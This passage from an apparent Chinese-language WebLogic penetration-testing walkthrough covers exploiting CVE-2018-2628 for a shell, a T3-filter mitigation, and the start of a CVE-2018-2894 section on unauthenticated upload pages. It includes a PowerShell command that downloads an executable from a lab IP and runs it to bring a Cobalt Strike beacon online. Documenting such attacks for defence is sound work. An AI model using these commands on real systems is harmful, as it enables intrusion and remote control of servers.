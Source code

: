 这里出了点问题，文件名改成了1.jsp

![image-20210810164738168](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cdb763cc8bee4cfeb2866e55e4637d57f6ab508f.png)

用脚本连接得到交互shell,脚本运行需python2环境

脚本链接：<https://github.com/jas502n/CVE-2018-2628>

![image-20210810165228766](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6aa75febe60196cd60d5e1d7fe5b660585d09c1e.png)

在此处上线cs，用的依旧是上面的马，改名zcc3.exe

```php
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc3.exe','zcc3.exe');start-process zcc3.exe
```

![image-20210810170001387](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3416c75b72fce926b2150a55eda4771e22dfe7a.png)

![image-20210810170039655](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-437ce76ba6014ff7082f18efec6fc4d99063b4b4.png)

##### 安全防护

过滤t3协议，再域结构中点击 安全-&gt;筛选器，选择筛选器填：

```php
weblogic.security.net.ConnectionFilterImpl
```

![image-20210813140332501](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3ddd7c623d8c0ff0b50398ba684a45cf2c3a9932.png)

保存后重启weblogic即可。

#### 5.WebLogic 未授权访问漏洞（CVE-2018-2894）

##### 漏洞简介

Weblogic Web Service Test Page中有两个未授权页面，可以上传任意文件。但是有一定的限制，该页面在开发模式下存在，在生产模式下默认不开启，如果是生产模式，需要登陆后台进行勾选启动web服务测试页，如下图。

![image-20210813145148182](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2c2b73f74f6c5afc807ee4e5c8791f9038669653.png)

##### 影响版本

```php
10.3.6
12.1.3
12.2.1.2
12.2.1.3
```

##### 验证漏洞

测试页有两个

```php
/ws_utc/config.do
/ws_utc/begin.do
```
